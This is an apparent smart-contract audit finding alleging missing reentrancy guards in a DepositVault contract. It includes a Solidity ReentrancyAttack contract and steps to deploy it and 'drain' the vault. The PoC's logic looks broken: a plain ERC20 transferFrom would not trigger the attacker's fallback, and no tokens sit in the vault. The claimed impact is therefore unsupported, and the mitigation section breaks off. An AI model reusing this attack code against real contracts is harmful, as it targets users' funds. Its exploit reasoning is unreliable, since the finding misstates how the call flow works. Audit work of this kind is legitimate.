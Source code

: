 Sweet Hickory Pangolin

High

# Lack of Reentrancy Protection at depositInstant and depositRequest functions for DepositVault contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-midas-minter-redeemer/blob/main/midas-contracts/contracts/DepositVault.sol#L79
Line: https://github.com/sherlock-audit/2024-08-midas-minter-redeemer/blob/main/midas-contracts/contracts/DepositVault.sol#L148

Functions like depositInstant and depositRequest involve external calls (e.g., transferring tokens). If any of these external contracts have vulnerabilities, an attacker could reenter the function, potentially leading to double-spending or other issues.

### Root Cause

Lack of Reentrancy Protection 

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

An attacker could reenter the function, potentially leading to double-spending.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;

import "@openzeppelin/contracts-upgradeable/token/ERC20/IERC20Upgradeable.sol";
import "@openzeppelin/contracts/utils/Address.sol";

contract DepositVault {
    using Address for address;

    IERC20Upgradeable public mToken;
    address public tokensReceiver;

    mapping(address => uint256) public totalMinted;

    constructor(address _mToken, address _tokensReceiver) {
        mToken = IERC20Upgradeable(_mToken);
        tokensReceiver = _tokensReceiver;
    }

    function depositInstant(address tokenIn, uint256 amountToken) external {
        require(amountToken > 0, "Invalid amount");

        // Transfer tokens from the user to the contract
        IERC20Upgradeable(tokenIn).transferFrom(msg.sender, tokensReceiver, amountToken);

        // Mint mToken for the user
        uint256 mintAmount = amountToken; // Simplified for PoC
        totalMinted[msg.sender] += mintAmount;
        mToken.mint(msg.sender, mintAmount);
    }
}
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;

import "@openzeppelin/contracts-upgradeable/token/ERC20/IERC20Upgradeable.sol";
import "./DepositVault.sol";

contract ReentrancyAttack {
    DepositVault public depositVault;
    IERC20Upgradeable public token;
    address public owner;

    constructor(address _depositVault, address _token) {
        depositVault = DepositVault(_depositVault);
        token = IERC20Upgradeable(_token);
        owner = msg.sender;
    }

    function attack(uint256 amount) external {
        // Step 1: Approve the DepositVault to transfer tokens on behalf of this contract
        token.approve(address(depositVault), amount);

        // Step 2: Initiate the deposit which will trigger the reentrancy
        depositVault.depositInstant(address(token), amount);
    }

    // Fallback function that will be called during the reentrant call
    fallback() external {
        // Re-enter the depositInstant function
        if (token.balanceOf(address(depositVault)) > 0) {
            depositVault.depositInstant(address(token), token.balanceOf(address(this)));
        }
    }

    function withdrawTokens() external {
        require(msg.sender == owner, "Not owner");
        uint256 balance = token.balanceOf(address(this));
        token.transfer(owner, balance);
    }
}
```

DepositVault Contract: The simplified version of the DepositVault contract includes a depositInstant function that allows users to deposit tokens and mint mToken. This function is vulnerable to reentrancy because it transfers tokens and updates the state (totalMinted) before minting mToken.

ReentrancyAttack Contract: This contract is the malicious actor. It:

Approves the DepositVault to spend its tokens.
Calls depositInstant with an initial token amount.
Exploits the reentrancy vulnerability by re-entering the depositInstant function via the fallback function.
The fallback function allows the attack to continue until all tokens in the DepositVault are drained.
Fallback Function: This is key to the attack. Every time the DepositVault calls back into the attacker's contract (e.g., due to transferring tokens), the fallback function triggers another depositInstant call, leading to reentrancy.

Steps to Deploy and Execute the Attack
Deploy the Vulnerable Contract: Deploy the DepositVault contract.
Deploy the Malicious Contract: Deploy the ReentrancyAttack contract, passing the address of the deployed DepositVault and the token to be used.
Fund the Malicious Contract: Send some tokens to the ReentrancyAttack contract to start the attack.
Execute the Attack: Call the attack function on the ReentrancyAttack contract. This will initiate the reentrancy and drain tokens from the DepositVault.



### Mitigation

To prevent this attack, implement the nonReentrant modifier from OpenZeppelin's ReentrancyGuard, ensuring that functions cannot be re-entered during execution: